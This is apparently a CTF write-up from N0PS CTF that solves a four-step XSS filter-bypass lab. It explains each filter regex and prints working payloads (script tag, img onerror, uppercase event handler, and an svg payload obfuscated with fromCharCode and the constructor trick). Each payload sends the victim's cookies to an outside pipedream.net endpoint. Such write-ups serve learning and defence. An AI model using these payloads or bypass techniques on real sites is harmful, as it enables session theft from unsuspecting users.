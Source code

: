 ```yaml
---
title: "[N0PS CTF] - XSS Lab"
date: 2025-06-01
author: me
categories: [writeups]
tags: ["Web", "XSS", "N0PS CTF"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>

*We got an access to a training resource from WebTopia, where they practise XSS filter bypassing. Enjoy it!*

<br>


_____________________________________________________



<br>

**Table of contents:**

- <a href="#step-1">Step 1</a>
- <a href="#step-2">Step 2</a>
- <a href="#step-3">Step 3</a>
- <a href="#step-4">Step 4</a>

<br>

_____________________________________________________


<br>

## Step 1

![2](/images/nopsctf/xsslab/step1.png)

Since the payload isn’t filtered, we can directly inject a script tag like this:
<br>
<br>

```html
<script>document.location='https://eo4mg2uuwtytyew.m.pipedream.net/?STEP1='.concat(document.cookie);</script>
```

![2](/images/nopsctf/xsslab/step1_flag.png)

`/0d566d04bbc014c2d1d0902ad50a4122`

## Step 2

![2](/images/nopsctf/xsslab/step2.png)

The payload is filtered by the following regex `.*(script|(</.*>)).*`, which blocks anything containing `script` and anything containing a closing tag like `</...>`. We can therefore bypass this filter by injecting an img tag:
<br>
<br>

```html
<img src=x onerror="new Image().src='https://eo4mg2uuwtytyew.m.pipedream.net/?STEP2='+document.cookie">
```
![2](/images/nopsctf/xsslab/step2_flag.png)

`/5d1aaeadf1b52b4f2ab7042f3319a267`

## Step 3

![2](/images/nopsctf/xsslab/step3.png)

This filter blocks:

- `://` → prevents URLs

- `script` → blocks any mention of "script"

- `</.*>` → blocks any closing tag

- `on\w+\s*=` → blocks all JS event attributes, such as:

    - `onerror=`

    - `onload=`

    - `onclick=`

    - etc.

To bypass this filter, we can simply use the previous payload but write the "onerror" in uppercase. Also, when specifying a URL like `//domain.com`, the browser automatically uses the same protocol as the current page (http or https). This lets us bypass the restriction on `://`.
<br>
<br>
```html
<img src=x ONERROR="new Image().src='//eo4mg2uuwtytyew.m.pipedream.net/?STEP3='+document.cookie">
```

![2](/images/nopsctf/xsslab/step3_flag.png)

`/b355082fc794c4d1d2b6c02e04163090`

## Step 4

![2](/images/nopsctf/xsslab/step4.png)

Regex:

```
(?i:(.*(/|script|(</.*>)|document|cookie|eval|string|(\"|'|`).*(('.+')|(\".+\")|(`.+`)).*(\"|'|`)).*))|(on\w+\s*=)|\+|!
```
This last step is quite tricky since the filter is very restrictive.

The filter forbids:

- `<script>`

- `</...>` (closing tags)

- `document`, `cookie`, `eval` and `string`

- ``` " ' ` ``` (quotes and backticks)

- `on\w+\s*=` (attributes like onXXX=, at the beginning of the payload)

- `+` and `!`

- `://`

And this applies regardless of letter case.

After several unsuccessful attempts, I had the idea to access the global function `Function` directly by using the `constructor` function.

![2](/images/nopsctf/xsslab/step4_1.png)

This way, we can access any JavaScript method without directly specifying their name. For example, we can access the `String` function like this:

![2](/images/nopsctf/xsslab/step4_2.png)

Now that we have access to the String function, we can simply use the `fromCharCode` method and write our code by replacing each letter with its corresponding charCode.

![2](/images/nopsctf/xsslab/step4_3.png)

The goal is to execute a function containing the following code:

`window.location.replace('https://eo4mg2uuwtytyew.m.pipedream.net/?STEP4'.concat(document.cookie))`

So, we get the corresponding char codes, which gives us:

```js
119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,39,
104,116,116,112,115,58,47,47,101,111,52,109,103,50,117,117,119,116,121,116,121,101,119,46,109,
46,112,105,112,101,100,114,101,97,109,46,110,101,116,47,63,83,84,69,80,52,39,46,99,111,110,99,
97,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,41
```

Altogether, this allows us to create a function that will redirect the bot to our endpoint along with its cookies:

![2](/images/nopsctf/xsslab/step4_4.png)

Finally, I got this payload that lets us complete the last step!

```java
<svg onload=[].constructor.constructor(window.name.constructor.fromCharCode(119,105,110,100,111,
119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,39,104,116,116,112,115,58,
47,47,101,111,52,109,103,50,117,117,119,116,121,116,121,101,119,46,109,46,112,105,112,101,100,
114,101,97,109,46,110,101,116,47,63,83,84,69,80,52,39,46,99,111,110,99,97,116,40,100,111,99,117,
109,101,110,116,46,99,111,111,107,105,101,41,41))()>
```

![2](/images/nopsctf/xsslab/step4_flag.png)

> 🚩 `N0PS{n0w_Y0u_4r3_x55_Pr0}`

Thanks for reading !